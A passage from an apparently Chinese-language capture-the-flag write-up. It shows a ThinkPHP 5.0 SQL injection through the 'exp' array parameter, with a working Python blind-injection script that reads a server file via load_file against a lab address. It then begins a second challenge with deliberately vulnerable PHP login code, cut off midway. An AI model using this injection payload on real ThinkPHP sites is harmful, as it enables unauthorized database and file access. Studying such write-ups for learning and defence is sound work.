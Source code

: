 直接访问 `/public/?s=index/M1sakaM1yuu/index` 会提示错误, 原因如下

[https://blog.csdn.net/zzh_meng520/article/details/55096901](https://blog.csdn.net/zzh_meng520/article/details/55096901)

得改成 `/public/?s=index/m1saka_m1yuu/index`

然后搜了下相关 sql 注入 [https://xz.aliyun.com/t/9266](https://xz.aliyun.com/t/9266)

但是涉及的版本只有 `5.0.13<=ThinkPHP<=5.0.15`

不过经过测试发现当 `$val[0]` 为 exp 时也能够成功注入

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211191046777.png)

构造 payload, 这里的时间注入可以改成 bigint 溢出

```python
import requests
import time

flag = ''

for i in range(1, 99999):
    for s in range(32,128):
        payload = 'if(ascii(substr((select%0aload_file("/var/www/html/ffllaagg.php")),{},1))={},1,1%2B~0)'.format(i, s)
        url = 'http://192.168.100.1:8086/public/?s=index/m1saka_m1yuu/index&username[0]=exp&username[1]={}&username[2]=1'.format(payload)
        #print(chr(s))
        res = requests.get(url)
        if '啊对对对' in res.text:
            flag += chr(s)
            print('FOUND!!!',flag)
            break
```

源码里面提示了 flag 的路径, 直接读文件就行

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211191047782.png)

## ezsql

题目没环境, 就简单说一下吧

参考文章 [https://www.creastery.com/blog/hack.lu-ctf-2021-web-challenges/](https://www.creastery.com/blog/hack.lu-ctf-2021-web-challenges/)

login.php

```php
<?php
if (isset($_POST['password'])){
    $query = db::prepare("SELECT * FROM `users` where password=md5(%s)", $_POST['password']);

    if (isset($_POST['name'])){
        $query = db::prepare($query . " and name=%s", $_POST['name']);
    }
    else{
        $query = $query . " and name='benjaminEngel'";
    }
    $query = $query . " limit 1";

    $result = db::commit($query);

    if ($result->num_rows > 0){
        die('NCTF{ez');
    }
    else{
```